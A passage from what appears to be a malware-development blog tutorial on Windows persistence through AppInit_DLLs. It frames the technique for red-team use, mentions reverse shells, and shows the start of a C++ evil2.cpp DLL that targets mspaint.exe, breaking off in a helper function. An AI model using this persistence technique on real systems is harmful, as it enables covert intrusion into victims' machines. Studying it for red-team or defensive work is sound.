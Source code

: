 So, everything is worked perfectly :)

### second example:

However, this method's implementation may result in stability and performance difficulties on the target system:

![pers](/assets/images/55/2022-05-16_10-44.png){:class="img-responsive"}    

Furthermore, I think that the logic of the first DLL's is considered very odd since multiple message boxes popup, so when we act real-life action in red team scenarios: it's very noisy, for example for multiple reverse shell connections.

I tried updating little bit the logic of `evil.dll`:

```cpp
/*
evil2.cpp
inject via Appinit_DLLs - only for `mspaint.exe`
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

char* subStr(char *str, char *substr) {
  while (*str) {
    char *Begin = str;
    char *pattern = substr;
    while (*str && *pattern && *str == *pattern) {
      str++;
```